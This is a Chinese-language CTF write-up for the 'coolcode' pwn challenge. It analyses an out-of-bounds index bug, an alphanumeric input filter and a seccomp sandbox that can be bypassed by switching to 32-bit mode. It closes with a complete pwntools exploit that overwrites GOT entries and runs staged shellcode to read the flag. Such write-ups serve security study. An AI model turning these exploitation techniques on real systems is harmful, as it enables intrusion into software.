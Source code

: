 # coolcode

> 来自[at0de](http://39.107.127.44/archives/192/)

## 分析题目

题目只给了ELF文件，没给libc.so。试着运行了一下，是个堆题目，只开了canary
有三个功能，add，show，delete

```shellcode
 1. Add a note                 
 2. show messages of the note  
 3. delete a note              
 4. Exit
```

add函数只能申请固定0x20大小的堆块，对index没有检查，v1是有符号整数，存在越界读写

![image.png](https://i.loli.net/2020/07/12/GjAi8lkKOCtRomY.png)

在读入messages的时候也有猫腻，有个对读入字符串check的函数，只允许读入大写字母和数字

```c
unsigned __int64 __fastcall read_content(char *addr, int size)
{
  void *v2; // rsp
  __int64 v4; // [rsp+0h] [rbp-40h]
  int v5; // [rsp+4h] [rbp-3Ch]
  char *dest; // [rsp+8h] [rbp-38h]
  char v7; // [rsp+13h] [rbp-2Dh]
  int v8; // [rsp+14h] [rbp-2Ch]
  __int64 v9; // [rsp+18h] [rbp-28h]
  void *s; // [rsp+20h] [rbp-20h]
  unsigned __int64 v11; // [rsp+28h] [rbp-18h]

  dest = addr;
  v5 = size;
  v11 = __readfsqword(0x28u);
  v8 = 0;
  v9 = size + 0x10 - 1LL;
  v2 = alloca(16 * ((size + 0x10 + 0xFLL) / 0x10uLL));
  s = &v4;
  memset(&v4, 0, size);
  printf("messages: ", 0LL);
  v8 = read(0, s, v5);
  if ( v8 < 0 )
  {
    puts("read error.");
    exit(1);
  }
  v7 = *(s + v8 - 1);
  if ( v7 == 0xA )
    v7 = 0;
  if ( sec_checks(s, v8) )
  {
    puts("read error.");
    exit(1);
  }
  strncpy(dest, s, v8);
  return __readfsqword(0x28u) ^ v11;
}
```

特殊的函数：alloca

> 内存分配函数,与malloc,calloc,realloc类似.
> 但是注意一个重要的区别,_alloca是在栈(stack)上申请空间,该变量离开其作用域之后被自动释放，无需手动调用释放函数。
> alloca不宜使用在必须广泛移植的程序中, 因为有些机器不一定有传统意义上的”堆栈”.
> gdb调试堆情况的时候发现heap和一部分bss段可读可写可执行？？

![image.png](https://i.loli.net/2020/07/12/P5WxOVtjBmUbLHq.png)

程序开了沙箱，只允许下面四个函数执行，缺少open函数
第一眼我就发现和其他沙箱题有点不同，这道题缺少

```shellcode
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x02 0xc000003e  if (A != ARCH_X86_64) goto 0004
```

这样的两条语句，这两条语句的作用是限制系统架构，没有这个过滤规则说明这道题可以用i386的函数调用号实现功能，fstat在64位架构中是5号，open函数在32位架构中也是5号，这难道是巧合吗？？（嘴角漏出一丝微笑）

```shellcode
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x15 0x04 0x00 0x00000001  if (A == write) goto 0006
 0002: 0x15 0x03 0x00 0x00000000  if (A == read) goto 0006
 0003: 0x15 0x02 0x00 0x00000009  if (A == mmap) goto 0006
 0004: 0x15 0x01 0x00 0x00000005  if (A == fstat) goto 0006
 0005: 0x06 0x00 0x00 0x00050005  return ERRNO(5)
 0006: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0007: 0x06 0x00 0x00 0x00000000  return KILL
```

## 漏洞利用

利用步骤：
1.通过修改exit_got为ret，可以跳过check机制；
2.由于堆块大小有限，需要修改free_got为shellcode1，用来读入更长的shellcode2；
3.shllcode2需要实现open->read->write一系列操作读出flag；

这道题比较考验shellcode的编写能力，一些汇编语句被限制了，可以通过其他语句来构造

## exp

```python
from pwn import *
context.log_level = 'debug'
debug = 1
elf = ELF('coolcode')

if debug:
    sh = process('./coolcode')
    libc = elf.libc
else:
    sh = remote('39.107.119.192',9999)

def add(idx,data):
    sh.sendlineafter('Your choice :',str(1))
    sh.recvuntil('Index: ')
    sh.sendline(str(idx))
    sh.recvuntil('messages: ')
    sh.send(str(data))
def show(idx):
    sh.sendlineafter('Your choice :',str(2))
    sh.recvuntil('Index: ')
    sh.sendline(str(idx))
def delete(idx):
    sh.sendlineafter('Your choice :',str(3))
    sh.recvuntil('Index: ')
    sh.sendline(str(idx))

add('-22',asm('ret',arch = 'amd64'))#exit_got->ret
shellcode1 = '''
    		xor eax, eax
        mov edi, eax
        push 0x60
        pop rdx
        mov esi, 0x1010101
        xor esi, 0x1612601
        syscall
        mov esp, esi
        retfq
'''
add('-37',asm(shellcode1,arch = 'amd64'))#free_got->shellcode1
delete(0)
shellcode2 = '''
    mov esp, 0x602770
    push 0x67616c66
    push esp
    pop ebx
    xor ecx,ecx
    mov eax,5
    int 0x80
'''
shellcode3 = '''
    push 0x33
    push 0x60272e
    retfq
    
    mov rdi,0x3
    mov rsi,rsp
    mov rdx,0x60
    xor rax,rax
    syscall
    mov rdi,1
    mov rax,1
    syscall
'''
sh.sendline(p64(0x602710)+p64(0x23)+asm(shellcode2,arch='i386')+asm(shellcode3,arch='amd64'))
sh.interactive()
```

参考链接
https://xz.aliyun.com/t/6645
https://sh1ner.github.io/2020/07/07/SCTF-2020-PWN/